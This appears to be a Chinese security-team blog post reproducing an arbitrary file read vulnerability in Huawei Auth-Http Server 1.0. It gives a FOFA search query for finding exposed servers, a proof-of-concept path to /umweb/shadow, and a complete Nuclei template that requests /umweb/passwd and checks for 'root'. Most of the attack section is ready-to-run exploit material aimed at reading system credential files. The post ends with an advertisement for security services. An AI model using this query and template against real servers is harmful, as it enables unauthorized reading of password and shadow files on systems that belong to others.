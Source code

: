 #  华为Auth-Http Serve任意文件读取漏洞复现   
网络安全交流圈  青澜安全团队   2023-11-24 17:49  
  
****  
  
**漏洞描述：**  
  
   
**Huawei Auth-Http任意文件泄露漏洞，攻击者可构造恶意请求获取系统信息等及其它安全风险。**  
  
**FOFA:**  
```
server="Huawei Auth-Http Server 1.0"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1ZzmH7NBcG7LjbnJWYBftSfhWK7fnvkGWadOM3icWqSlxEicHk82Qm2Ktibgo6SVWLWzVm5TIsdsDvGWjvzfuRMyA/640?wx_fmt=png&from=appmsg "")  
  
****  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1ZzmH7NBcG7LjbnJWYBftSfhWK7fnvkG0eJqzbWkBIcgDHBuria4icbic1iayEErZEe4gN5P3cRPJiaTCsB7yRlYZXA/640?wx_fmt=png&from=appmsg "")  
  
POC：来源于互联网  
```
/umweb/shadow
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1ZzmH7NBcG7LjbnJWYBftSfhWK7fnvkGVtExdu7O40fPkGXp3I1mHJlIMA4OwVkWJHpZmHRekRvHx8icqRMiaSfw/640?wx_fmt=png&from=appmsg "")  
```
id: huanwei-auth-http-server-fileread

info:
name: 华为Auth-Http Server 1.0任意文件读取
author:
severity: medium
description: 华为Auth-Http Server 1.0任意文件读取，攻击者可通过此漏洞获取敏感信息。

reference:
- https://
metadata:
fofa-query: server="Huawei Auth-Http Server 1.0"
verified: true
max-request: 1

http:
- raw:
- |
GET /umweb/passwd HTTP/1.1
Host: {{Hostname}}


matchers:
- type: dsl
dsl:
- 'status_code==200 && contains_all(body,"root")'

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1ZzmH7NBcG7LjbnJWYBftSfhWK7fnvkGKbxUrkcEiaceFWtz0soCxO2VKhYqparciclu8E15tSmibZicmickZFU1UpQ/640?wx_fmt=png&from=appmsg "")  
  
  
欢迎添加微信进行业务咨询：![](https://mmbiz.qpic.cn/sz_mmbiz_png/1ZzmH7NBcG7gqeIdG5PgEfStMv2NjgTtLFibNg95agAOlNJGerlYBIL5icrjdRQgn7kPKB9xDkk37ZHTXEiaNPPpw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
承接以下业务：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1ZzmH7NBcG6A6H4s2wQyk10Hg7M4kkTkTibpaia4ar7KlgSicXVFnicKPl8CWXbEKVlvManAicrjReV9aw5icJxxamFw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
